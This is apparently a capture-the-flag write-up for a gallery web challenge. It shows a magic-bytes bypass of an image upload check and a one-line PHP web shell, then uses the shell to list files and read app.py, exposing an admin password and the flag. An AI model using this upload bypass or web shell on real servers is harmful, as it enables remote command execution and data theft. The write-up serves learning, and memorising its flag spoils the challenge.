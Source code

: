 ![](../img/TPG.png)


# Information gathering

Entering the page the user is presented with a choice "Upload your artwork" or Browse the gallery.  
![](../img/TPG_First.png)


Entering the gallery the user is presented with multiple images with random names.  
![](../img/TPG_Gallery.png)


Uploading an image the apps adds random string of characters in front of the original name of the file when uploading.

Using the upload form to upload a image gives the redirects the user to the gallery page.  
![](../img/TPG_Upload.png)
```http
POST /upload HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 31291
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGAAHlBuhSrUytxWA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryGAAHlBuhSrUytxWA
Content-Disposition: form-data; name="image"; filename="georgie_pose.jpg"
Content-Type: image/jpeg



[...]
```


So to find the upload images the user need to browse the gallery or enter the ```/uploads``` endpoint to find the last uploaded image.  
![](../img/TPG_Uploads.png)


From here it's possible to access a image directly.  
![](../img/TPG_Georgie.png)


Trying to upload a new image with the same name but containing a simple webshell written in PHP an error is returned.  
```http
HTTP/1.1 200 OK
[...]
        <section class="main-content">
            <h2>Contribute to the Royal Archive</h2>
            
            
                
                    <div class="messages">
                        
                            <div class="message">File does not appear to be a valid image</div>
                        
                    </div>
[...]
```


But using a file signature or "magic bytes" it's possible to bypass this validation on the backend.  
https://en.wikipedia.org/wiki/List_of_file_signatures  
```http
POST /upload HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 31291
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJfHPOnzvhptO9nuH
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryJfHPOnzvhptO9nuH
Content-Disposition: form-data; name="image"; filename="test_shell_data.php.jpg"
Content-Type: image/jpeg



<?php echo system($_GET['command']); ?>
------WebKitFormBoundaryJfHPOnzvhptO9nuH--
```

Accessing the newly uploaded "image" an error message occurs that tells the attacker that the script is executed.  
![](../img/TPG_Accessing_web_shell.png)


# Attack
Adding the query string to the script endpoint (```command```) it's possible to execute commands on the server.  
Requesting ```ls ..``` to list content from the parent folder.  
```http
GET /uploads/c074188ba97ebf54_test_shell_data.php.jpg/?command=ls%20.. HTTP/1.1
Host: 134.122.88.8:5005
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkltYWdlIHVwbG9hZGVkIHN1Y2Nlc3NmdWxseSEgVmlldyBpdCBpbiB0aGUgZ2FsbGVyeS4iXX1dfQ.aBeWfg.d22GsPv3qqc09pG-FnFEJBeeQiE
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:35:53 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 122

Dockerfile
app.py
backup.bak
docker-compose.yml
requirements.txt
start.sh
static
templates
uploads
uploads
```

Adding ```cat app.py``` to the query.
```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:41:37 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 4245

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory, session
import os
import imghdr
import secrets
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.config['SECRET_KEY'] = secrets.token_hex(16)
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024  # 2MB max size
app.config['ADMIN_PASSWORD'] = 'Anubis_Guardian_1337'  # For admin section
app.config['FLAG'] = 'O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}'
```

```Flag: O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}```